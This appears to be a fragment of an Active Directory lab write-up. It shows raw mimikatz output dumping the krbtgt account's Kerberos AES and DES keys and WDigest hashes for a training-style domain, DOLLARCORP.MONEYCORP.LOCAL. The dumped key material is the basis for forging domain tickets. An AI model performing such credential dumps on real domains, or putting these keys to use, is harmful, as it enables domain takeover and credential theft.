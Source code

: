 ```powershell
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

* Primary:Kerberos *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 150ea2e934ab6b80

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a0e60e247b498de4cacfac3ba615af01
    02  86615bb9bf7e3c731ba1cb47aa89cf6d
    03  637dfb61467fdb4f176fe844fd260bac
    04  a0e60e247b498de4cacfac3ba615af01
    05  86615bb9bf7e3c731ba1cb47aa89cf6d
    06  d2874f937df1fd2b05f528c6e715ac7a
    07  a0e60e247b498de4cacfac3ba615af01
    08  e8ddc0d55ac23e847837791743b89d22
    09  e8ddc0d55ac23e847837791743b89d22
    10  5c324b8ab38cfca7542d5befb9849fd9
    11  f84dfb60f743b1368ea571504e34863a
    12  e8ddc0d55ac23e847837791743b89d22
    13  2281b35faded13ae4d78e33a1ef26933
    14  f84dfb60f743b1368ea571504e34863a
    15  d9ef5ed74ef473e89a570a10a706813e
    16  d9ef5ed74ef473e89a570a10a706813e
    17  87c75daa20ad259a6f783d61602086aa
    18  f0016c07fcff7d479633e8998c75bcf7
    19  7c4e5eb0d5d517f945cf22d74fec380e
    20  cb97816ac064a567fe37e8e8c863f2a7
    21  5adaa49a00f2803658c71f617031b385
    22  5adaa49a00f2803658c71f617031b385
    23  6d86f0be7751c8607e4b47912115bef2
    24  caa61bbf6b9c871af646935febf86b95
    25  caa61bbf6b9c871af646935febf86b95
    26  5d8e8f8f63b3bb6dd48db5d0352c194c
    27  3e139d350a9063db51226cfab9e42aa1
    28  d745c0538c8fd103d71229b017a987ce
    29  40b43724fa76e22b0d610d656fb49ddd


mimikatz(commandline) # exit
Bye!
```
